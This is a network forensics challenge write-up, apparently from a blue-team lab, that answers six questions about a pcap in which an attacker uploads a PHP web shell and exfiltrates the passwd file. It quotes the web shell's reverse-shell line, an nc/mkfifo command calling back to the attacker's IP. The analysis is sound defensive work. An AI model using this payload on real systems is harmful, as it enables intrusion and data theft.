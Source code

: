 ```yaml
---
categories: [DFIR, Network Forensics]
tags: [wireshark, web attacks]
---
```


## Scenario

> An anomaly was discovered within our company’s intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

- This is a simple case of Geolocating using IP addresses. In Wireshark, I found the attacker’s IP by going to Statistics => Conversations => IPv4. The IP address of the attacker is 117.11.88.128. Plugging this into ipgeolocation.io, I get the country of China and the city of **Tianjin**.

![ipgeolocation.io reponse](https://cdn-images-1.medium.com/max/2000/1*G7Itdk1-5CvYizLZpG3r5w.png)_ipgeolocation.io reponse_

2. Knowing the attacker’s user-agent assists in creating robust filtering rules. What’s the attacker’s user agent?

- The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it’s the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0.

3. We need to identify if there were potential vulnerabilities exploited. What’s the name of the malicious web shell uploaded?

- Going to the Statistics => Protocol Hierarchy, I immediately saw “Compuserve GIF”

![Wireshark snapshot](https://cdn-images-1.medium.com/max/2000/1*_d772Rdy7xBy4DfDX1wM5w.png)_Wireshark snapshot_

- I remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the upload(2).php file, we can see that a filename of “image.png.php” was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker’s IP address on port 8080. This essentially establishes a reverse shell, allowing the attacker to interact with the compromised server remotely.

- Line of code:

     <?php system(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f”);

4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?

- Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, indicating that the malicious script was stored there.

![](https://cdn-images-1.medium.com/max/2000/1*ozG3rBs0jLdF2E9yq-81uw.png)

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

- This was straightforward, as we already found out from the PHP snippet that the attacker leverages port 8080.

6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

- Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwdfile, which was the goal of the attacker.

![](https://cdn-images-1.medium.com/max/2000/1*N4pXXpyKflvtigqanP-PJA.png)

## **Summary**

In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (upload(2).php). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the **passwd **file containing passwords for different accounts.
